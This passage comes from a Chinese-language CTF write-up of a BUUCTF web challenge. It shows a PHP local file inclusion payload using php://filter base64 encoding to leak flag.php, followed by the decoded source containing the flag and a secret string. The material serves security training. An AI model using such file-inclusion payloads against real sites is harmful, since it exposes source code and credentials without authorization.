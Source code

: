 去访问flag.php

![image-20200915170928215](BUUCTF——Web.assets/image-20200915170928215.png)

讲道理flag应该是写在这里的，但是查看源码没有发现什么有意义的信息。查看wp，flag是写在php里的，但是估计展示的时候被挡住了，返回去看上面的php代码，可以利用文件包含来读出文件。

payload：

```
http://a89e7cda-4786-41f4-9610-f2e6e0e6e6e1.node3.buuoj.cn/secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php
```

这样就能把整个flag.php代码转换输出

<img src="BUUCTF——Web.assets/image-20200915173355558.png" alt="image-20200915173355558" style="zoom:33%;" />

把base64代码解码就能得到flag.php

```php
<!DOCTYPE html>

<html>

    <head>
        <meta charset="utf-8">
        <title>FLAG</title>
    </head>

    <body style="background-color:black;"><br><br><br><br><br><br>
        
        <h1 style="font-family:verdana;color:red;text-align:center;">啊哈！你找到我了！可是你看不到我QAQ~~~</h1><br><br><br>
        
        <p style="font-family:arial;color:red;font-size:20px;text-align:center;">
            <?php
                echo "我就在这里";
                $flag = 'flag{88951037-7a2c-4a16-b86f-8ed290700ea2}';
                $secret = 'jiAng_Luyuan_w4nts_a_g1rIfri3nd'
            ?>
        </p>
    </body>

</html>

```
